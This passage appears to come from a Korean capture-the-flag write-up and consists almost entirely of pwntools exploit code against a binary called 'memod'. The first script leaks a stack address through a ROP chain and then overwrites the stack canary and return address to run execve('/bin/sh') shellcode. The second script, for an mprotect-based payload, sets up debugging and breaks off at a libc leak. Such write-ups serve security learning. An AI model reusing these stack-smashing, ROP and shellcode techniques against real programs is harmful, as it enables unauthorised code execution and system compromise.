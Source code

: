 ``` python
    payload += b"DDDD"                  # sfp
    payload += p32(elf.plt['puts'])     # ret #1
    payload += p32(0x080485e4)          # ret #2 (pop ret gadget)
    payload += p32(environ)             # argument #1
    payload += p32(elf.symbols['main']) # ret #3
    s.sendline(payload)
    r = s.recv(1024)
    stack = u32(r[0:4])
    log.info(f"stack : {hex(stack)}")

    # execute shellcode
    s.send(b"3" * 33)
    s.recv(1024)

    payload = asm(shellcraft.execve("/bin/sh", 0, 0))   # shellcode
    payload += b"E" * (0x124 - len(payload))            # dummy
    payload += b"\x00\x00\x00\x00"                      # canary
    payload += b"FFFF"                                  # sfp
    payload += p32(stack - 0x1cc)                       # ret #1 (&shellcode)
    s.sendline(payload)

    s.interactive()

if __name__=='__main__':
    main()
```

### mprotect를 이용한 payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "memod"
LIBRARY = "libc.so.6"

bp = {
    'read_of_main' : 0x08048703,
    'fgets_of_main' : 0x804875a,
    'canary_backup' : 0x08049b2c,
    'end_of_main' : 0x080487ce,
    'mprotect' : 0xf7e9f020,
}

gs = f'''
b *{bp['end_of_main']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    # leak libc
```